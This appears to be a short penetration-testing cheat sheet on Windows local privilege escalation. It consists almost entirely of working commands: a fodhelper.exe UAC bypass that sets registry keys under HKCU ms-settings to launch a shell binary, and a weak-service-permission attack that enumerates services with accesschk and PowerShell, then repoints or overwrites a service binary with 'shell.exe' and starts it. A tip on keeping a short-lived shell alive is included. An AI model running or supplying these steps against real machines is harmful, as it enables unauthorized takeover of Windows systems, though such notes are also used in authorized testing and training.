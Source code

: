 #### `fodhelper.exe` privesc

`Administrators group` account `whoami /groups` `Medium` -> `High Mandatory` level

{% code overflow="wrap" %}
```
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "shell/ps.exe" /f
REG QUERY HKCU\Software\Classes\ms-settings\Shell\Open\command /s
fodhelper.exe /s

ComputerDefaults.exe /s
changepk.exe /s
```
{% endcode %}

#### Weak service permission&#x20;

* A low privileged user is allowed to change service configuration - for example change the service binary the service launches when it starts
* A low privileged user can overwrite the binary the service launches when it starts

{% hint style="info" %}
`SERVICE_ALL_ACCESS` or  `SERVICE_CHANGE_CONFIG`

Short life shell, need persist it by setting 2 listeners and run 2nd shell in & b4 1st shell die
{% endhint %}

<pre data-overflow="wrap"><code>#enum for a target svc

.\accesschk.exe -uws "Everyone" "C:\Program Files"
or
powershell Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
or
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
or
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
<strong>.\accesschk.exe /accepteula -ucv "user" targetsvc
</strong></code></pre>

```
SERVICE_CHANGE_CONFIG:
#change exec path
sc.exe config targetsvc binpath= "c:\shell.exe"
```

```
SERVICE_ALL_ACCESS:
# check current binpath
sc.exe qc target

# check M access on the original service.exe from binpath
icacls C:\service.exe

cp C:\shell.exe C:\service.exe
sc start targetsvc
```
